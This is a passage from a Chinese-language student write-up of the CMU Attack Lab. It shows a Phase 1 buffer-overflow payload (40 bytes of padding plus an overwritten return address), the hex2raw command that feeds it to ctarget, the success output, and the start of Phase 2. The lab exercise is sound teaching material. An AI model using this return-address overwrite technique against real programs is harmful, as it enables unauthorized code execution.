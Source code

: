 这里还有个问题是如何输入不可打印字符。这里使用官方writeup中给出的HEX2RAW程序。输入类似下面这种命令来向`ctarget`程序中输入。ctarget.l2.txt文件中就是所构造的16进制字节序列。

```bash
./hex2raw < ctarget.l2.txt | ./ctarget
```

* 在文件ctarget.l2.txt中写入,要填入的地址为`00 00 00 00 00 40 17 c0`,写入时填为：`c0 17 40 00 00 00 00 00`,地址为小端序：

* 构造
```
64 64 64 64 64 64 64 64 
64 64 64 64 64 64 64 64 
64 64 64 64 64 64 64 64 
64 64 64 64 64 64 64 64 
64 64 64 64 64 64 64 64  /* 40字节填充 */
c0 17 40 00 00 00 00 00  /* 写入返回地址即可 */
```

其中前40字节是填充，从c0开始就是写入的地址。

**输入命令,漏洞利用：**

```bash
$ ./hex2raw < ctargetl1.txt | ./ctarget -q 
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 C0 17 40 00 00 00 00 00 
```


### Phase 2

#### 实验目标：

ctarget文件中touch2函数有以下源代码：

```cpp
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
